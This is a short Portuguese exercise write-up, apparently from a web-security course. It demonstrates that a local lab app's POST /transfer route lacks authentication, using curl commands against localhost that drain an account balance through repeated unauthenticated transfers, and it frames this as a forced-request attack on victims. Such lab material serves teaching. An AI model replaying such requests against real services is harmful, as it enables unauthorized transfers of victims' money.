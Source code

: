 ## Módulo 01 / Exercício 01 - Payloads

Uma forma de identificar uma possível vulnerabilidade é verificar como a aplicação web realiza chamadas aos serviços de backend.

Para esse exercício, foi verificado que a rota POST http://localhost:8080/transfer não possui qualquer mecanismo de autenticação. 

Isso permite que qualquer atacante possa criar uma forma de forçar a vítima a executar alguma página que ele entenda ser confiável, mas que no fundo esteja realizando operações indesejadas.

Com os comandos abaixo é possível verificar que o saldo é descontado a cada requisição feita.

Recuperar o saldo:

    curl -X GET http://localhost:8080/balance


Realizar uma transferência sem qualquer mecanismo de autenticação.

    curl -X POST http://localhost:8080/transfer -d amount=100


Recuperar o saldo e verificar que foi descontado o valor 100:

    curl -X GET http://localhost:8080/balance


Realizar uma nova transferência sem qualquer mecanismo de autenticação.

    curl -X POST http://localhost:8080/transfer -d amount=900


Recuperar o saldo e verificar que o saldo foi zerado:

    curl -X GET http://localhost:8080/balance

